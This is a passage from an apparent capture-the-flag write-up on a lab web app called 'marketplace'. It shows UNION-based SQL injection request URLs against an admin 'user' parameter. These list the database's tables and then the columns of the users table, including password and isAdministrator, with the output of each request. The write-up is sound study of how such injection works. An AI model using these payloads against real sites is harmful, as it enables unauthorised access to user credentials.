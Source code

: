{% code overflow="wrap" lineNumbers="true" %}
```bash
# Table name from the DB name.
http://10.10.180.141/admin?user=-1%20UNION%20SELECT%20NULL,gRoUp_cOncaT(0x7c,table_name,0x7c),NULL,NULL%20fRoM%20information_schema.tables%20WHERE%20table_schema=%22marketplace%22--

# we have 3 tables in the marketplace db
|items|,|messages|,|users|
```
{% endcode %}

<figure><img src=".gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>

Users should be where the credentials are, so lets check users Taable.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# columns in the [users] table.

http://10.10.180.141/admin?user=-1%20UNION%20SELECT%20NULL,gRoUp_cOncaT(0x7c,column_name,0x7c),NULL,NULL%20fRoM%20information_schema.columns%20WHERE%20table_name=%22users%22--

# there are 4 columns in the users Table.
 |id|,|username|,|password|,|isAdministrator| 
```
{% endcode %}

<figure><img src=".gitbook/assets/image (226).png" alt=""><figcaption></figcaption></figure>
